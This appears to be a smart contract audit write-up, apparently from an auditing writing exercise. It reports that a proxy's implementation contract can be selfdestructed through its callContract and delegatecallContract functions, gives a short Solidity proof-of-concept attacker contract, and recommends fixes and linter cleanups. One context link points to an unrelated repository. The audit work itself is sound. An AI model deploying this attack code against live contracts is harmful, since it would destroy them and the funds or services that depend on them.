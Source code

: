 ## The functions `callContract` and `delegatecallContract` can be manipulated to selfdestruct the implementation contract

**Severity**: High

Context:

1. [`Implementation.sol#L11-L15`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L11-L15)
2. [`Implementation.sol#L17-L21`](https://github.com/brinktrade/brink-core/blob/db0027533b228a6994acdbcb06713b5a3a3ecb38/contracts/Batched/DeployAndCall.sol#L17-L21)

The implementation contract is the address of implementation in proxy contract, we can't change the value of implementation after deployed. The attacker can execute selfdestruct by delegating call in behalf of implementation contract.

1. Creating a contract using this functions anyone can selfdestruct the implementation contract by calling attack()

```solidity
/*
 * Function that call the exploit in implementation contract
 * impl is address of implementation contract
 */
function attack(address impl) external {
  bytes memory data = abi.encodeWithSignature(
    "delegatecallContract(address,bytes)",
    address(this),
    abi.encodeWithSignature("destruct()")
  );
  Implementation(impl).callContract(impl, data);
}

/*
 * Function to be executed in the context of implementation contract
 */
function destruct() external {
  selfdestruct(attacker);
}

```

This vulnerability consists in use the implemntation contract calling himself using the callContract function and then delegatecallContract to malicious contract selfdestructing in context of implementation contract.

![`How it works`](./screenshots/how-it-works.png)

**Recommendation**
To avoid this vulnerability, you can change the Implementation contract to `library` and remove the `payable` from functions:

```solidity
library Implementation {
  function callContract(address a, bytes calldata _calldata)
    external
    returns (bytes memory)
  {
    (bool success, bytes memory ret) = a.call{ value: msg.value }(_calldata);
    require(success);
    return ret;
  }

  function delegatecallContract(address a, bytes calldata _calldata)
    external
    returns (bytes memory)
  {
    (bool success, bytes memory ret) = a.delegatecall(_calldata);
    require(success);
    return ret;
  }
}

```

## Informational linter issues

**Severity**: Informational

Context:

1. [`Implementation.sol#L11`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L11)
2. [`Implementation.sol#L13`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L13)
3. [`Implementation.sol#L17`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L17)
4. [`Implementation.sol#L19`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L19)
5. [`Proxy.sol#L23`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Proxy.sol#L23)

There are some linter issues related to:

- Provide an error message for require [reason-string]
- Visibility modifier must be first in list of modifiers [visibility-modifier-order]

**Recommendation**:

To fix the visibility-modifier-order issue in these files: [`Implementation.sol#L11`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L11), [`Implementation.sol#L17`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L17), you need to declare first the visibility then the others modifiers. Eg:

```
function callContract(...) external payable returns (bytes memory){...}
```

To fix the reason-string issue in these files: [`Implementation.sol#L13`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L13), [`Implementation.sol#L19`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Implementation.sol#L19), [`Proxy.sol#L23`](https://github.com/spearbit-audits/writing-exercise/blob/de45a4c5b654710812e9fa29dde6e12526fe4786/contracts/Proxy.sol#L23), you need to add error message (maximum 32 bytes for gas optimization) to require functions. Eg:

```
require(a>b, "error message")
```
